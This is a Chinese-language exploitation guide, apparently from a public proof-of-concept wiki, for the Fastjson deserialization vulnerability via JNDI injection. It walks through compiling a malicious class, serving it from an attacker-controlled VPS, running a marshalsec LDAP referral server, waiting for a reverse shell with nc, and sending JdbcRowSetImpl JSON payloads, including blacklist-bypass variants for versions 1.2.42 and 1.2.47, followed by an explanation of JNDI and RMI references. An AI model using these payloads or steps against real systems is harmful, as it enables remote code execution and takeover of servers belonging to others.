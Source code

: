 # FastJson反序列化漏洞利用

## 利用条件：

- 基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
- 基于rmi的利用方式，适用jdk版本：JDK 6u132，JDK 7u131，JDK 8u121之前。
- （实战首选ldap，支持的jdk版本较多）
- Fastjson < 1.2.25
- 1.2.24< Fastjson <1.2.48 版本后增加了反序列化白名单，可以利用特殊构造的json字符串绕过白名单检测

## 利用方法：

### 步骤一：测试是否可能存在fastjson反序列化漏洞

使用json格式参数的POST请求，查看请求是否报错和返回结果。

### 步骤二：准备要执行的 Java 恶意代码

修改恶意类代码 [JNDIObject.java](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/JNDIObject.java) 并编译生成恶意类 JNDIObject.class

```bash
javac JNDIObject.java
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/image/javaCode.jpg)
> ⚠️port为nc监听端口

### 步骤三：搭建http服务传输恶意文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）
```bash
# 使用 python 快速开启 http server
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
并将生成的 `JNDIObject.class` 文件拷贝到 该服务的根目录。

### 步骤四：架设恶意类的 ldap 服务

下载 [marshalsec](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发语言漏洞/JAVA/FsatJson/file/marshalsec-0.0.3-SNAPSHOT-all.jar) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

> ⚠️恶意类的ldap服务监听端口和poc中访问的接口一致

### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

### 步骤六：修改请求包数据，发送poc

```bash
{
	"b":{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://your-vps-ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```
> ⚠️poc中访问的接口和恶意类的ldap服务监听端口一致

### 1.2.42版本绕过
fastjson在1.2.42版本新增了校验机制。如果输入类名的开头和结尾是L和;就将头尾去掉再进行黑名单校验。绕过方法：在类名外部嵌套两层L和;。
原类名：```com.sun.rowset.JdbcRowSetImpl```

绕过：```LLcom.sun.rowset.JdbcRowSetImpl;;```

EXP：

```bash
{           
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://ip:1389/JNDIObject",
	"autoCommit":true
}
```
> autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

### 1.2.47版本绕过
在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

```bash
{
	"a": { 
		"@type":"java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": { 
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"ldap://ip:1389/JNDIObject",
		"autoCommit":true
	}
}
```

## 漏洞原理：

1. 首先开启HTTP服务器，并将我们的恶意类放在目录下
2. 开启恶意RMI服务器
3. 攻击者控制url参数为上一步开启的恶意RMI服务器地址
4. 恶意RMI服务器返回ReferenceWrapper类
5. 目标（JNDI_Client）在执行lookup操作的时候，在decodeObject中将ReferenceWrapper变成Reference类，然后远程加载并实例化我们的Factory类（即远程加载我们HTTP服务器上的恶意类），在实例化时触发静态代码片段中的恶意代码

## 漏洞分析：
### JNDI
JNDI是 Java 命名与目录接口（Java Naming and Directory Interface），在J2EE规范中是重要的规范之一。JNDI提供统一的客户端API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI再局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。

JNDi是应用程序设计的Api，JNDI可以根据名字动态加载数据，支持的服务主要有以下几种：
```bash
DNS、LDAP、CORBA对象服务、RMI
```
### 利用JNDI References进行注入
对于这个知识点，我们需要先了解RMI的作用。

首先RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。RMI服务端可以直接绑定远程调用的对象以外，还可通过References类来绑定一个外部的远程对象，当RMI绑定了References之后，首先会利用Referenceable.getReference()获取绑定对象的引用，并在目录中保存，当客户端使用lookup获取对应名字时，会返回ReferenceWrapper类的代理文件，然后会调用getReference()获取Reference类，最终通过factory类将Reference转换为具体的对象实例。

服务端
```bash
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
	public static void main(String args[]) throws Exception {
		Registry registry = LocateRegistry.createRegistry(1099);
		// Reference需要传入三个参数(className,factory,factoryLocation)
		// 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
		Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
		// ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
		ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
		registry.bind("refObj", refObjWrapper);
	}
}
```

客户端
```bash
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDIClient {
	public static void main(String[] args) throws Exception{
		try {
			Context ctx = new InitialContext();
			ctx.lookup("rmi://localhost:8000/refObj");
		}catch (NamingException e) {
			e.printStackTrace();
		}
	}
}
```
如果我们可以控制JNDI客户端中传入的url，就可以起一个恶意的RMI，让JNDI来加载我们的恶意类从而进行命令执行。

我们来看一下References，References类有两个属性，className和codebase url，className就是远程引用的类名，codebase决定了我们远程类的位置，当本地classpath中没有找到对应的类的时候，就会去请求codebase地址下的类（codebase支持http协议），此时如果我们将codebase地址下的类换成我们的恶意类，就能让客户端执行。

ps：在java版本大于1.8u191之后版本存在trustCodebaseURL的限制，只能信任已有的codebase地址，不再能够从指定codebase中下载字节码。


## 漏洞总结：

1. 反序列化常用的两种利用方式，一种是基于rmi，一种是基于ldap。
2. RMI是一种行为，指的是Java远程方法调用。
3. JNDI是一个接口，在这个接口下会有多种目录系统服务的实现，通过名称等去找到相关的对象，并把它下载到客户端中来。
4. ldap指轻量级目录服务协议。
